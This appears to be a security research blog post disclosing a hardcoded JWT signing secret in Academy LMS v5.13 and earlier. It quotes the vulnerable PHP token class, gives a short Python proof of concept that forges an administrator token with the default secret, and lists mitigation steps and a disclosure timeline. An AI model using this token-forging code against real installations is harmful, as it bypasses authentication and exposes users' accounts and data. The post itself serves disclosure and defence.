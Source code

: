 ```yaml
---
title: "Critical JWT Secret Vulnerability in Academy LMS v5.13"
date: 2025-07-20
tags: ["security", "jwt", "academy-lms", "vulnerability"]
categories: ["Security Research"]
draft: false
---
```


## Overview

A critical security vulnerability has been discovered in Academy LMS versions up to and including 5.13, where the application uses a hardcoded default JWT secret for token authentication.

## Technical Details

**CVE ID:** Pending Assignment  
**CVSS Score:** 9.3 (Critical)  
**Affected Versions:** Academy LMS ≤ v5.13  
**Vulnerability Type:** Authentication Bypass via Hardcoded Credentials  

### Affected Component
- File: `lms/application/libraries/TokenHandler.php`
- Default Secret: `academy-lms-xxxxxxxxxxx` - masked to protect users who still use the secret

### Vulnerability Description

Academy LMS uses a predictable, hardcoded JWT secret "academy-lms-xxxxxxxx" for signing authentication tokens with the HS256 algorithm. This secret is the same across all default installations of Academy LMS, making it trivial for attackers to forge valid JWT tokens.

### Vulnerable Source Code

```php
// From lms/application/libraries/TokenHandler.php:6
class TokenHandler
{
   //////////The function generate token/////////////
   PRIVATE $key = "academy-lms-xxxxxxxx";
   public function GenerateToken($data)
   {
       $jwt = JWT::encode($data, $this->key);
       return $jwt;
   }

  //////This function decode the token////////////////////
   public function DecodeToken($token)
   {
       $decoded = JWT::decode($token, $this->key, array('HS256'));
       $decodedData = (array) $decoded;
       return $decodedData;
   }
}
```

## Impact

An attacker can:
1. Purchase the Academy LMS template to obtain the source code and discover the default secret
2. Generate valid JWT tokens for any user account, including administrators
3. Completely bypass authentication mechanisms
4. Achieve privilege escalation to administrative access
5. Access sensitive user data and system functions

## Proof of Concept

```python
import jwt
import json

# Known default secret from Academy LMS
secret = "academy-lms-xxxxxx"

# Forge admin token
payload = {
    "user_id": "1",
    "role_id": "1",
    "is_admin": True,
    "email": "admin@example.com"
}

# Generate malicious JWT
forged_token = jwt.encode(payload, secret, algorithm='HS256')
print(f"Forged Admin Token: {forged_token}")
```

## Affected Endpoints

All API endpoints that rely on JWT authentication are vulnerable, including:
- User authentication endpoints
- Course management APIs
- Administrative functions
- Payment processing APIs

## Mitigation

### Immediate Actions
1. **Change the JWT secret immediately** to a cryptographically secure random value
2. **Invalidate all existing JWT tokens** by changing the secret
3. **Force all users to re-authenticate**

### Recommended Implementation
```php
// Generate secure random secret
$jwt_secret = bin2hex(random_bytes(32)); // 64-character hex string

// Store in environment variables or secure config
// Never hardcode in source code
```

### Best Practices
- Use environment variables for secrets
- Implement JWT secret rotation
- Consider using RS256 with public/private key pairs
- Implement proper token expiration policies

## Timeline

- **Discovery:** July 2025 (During white box penetration testing)
- **Vendor Notification:** July 20, 2025 (Responsible disclosure to Creativeitem/Academy LMS team)
- **CVE Request Submitted:** July 20, 2025 (CVE number requested from MITRE)
- **Vendor Response:** Awaiting response from vendor
- **Public Disclosure:** July 20, 2025

*This vulnerability was discovered during a white box penetration test. Given that Academy LMS is a widely-used commercial template with many installations across different organizations, we decided to report this as a responsible disclosure to help protect all users of this platform.*

*This timeline will be updated accordingly as the responsible disclosure process progresses.*

## References

- [Academy LMS Official Website](https://codecanyon.net/item/academy-learning-management-system/22703468)
- [JWT Security Best Practices](https://tools.ietf.org/html/rfc7519)

## Credit

This vulnerability was discovered and responsibly disclosed by the security research team at suryadina.com.

---
*This post is part of our ongoing security research into popular Learning Management Systems. For more security insights, visit [https://suryadina.com](https://suryadina.com).*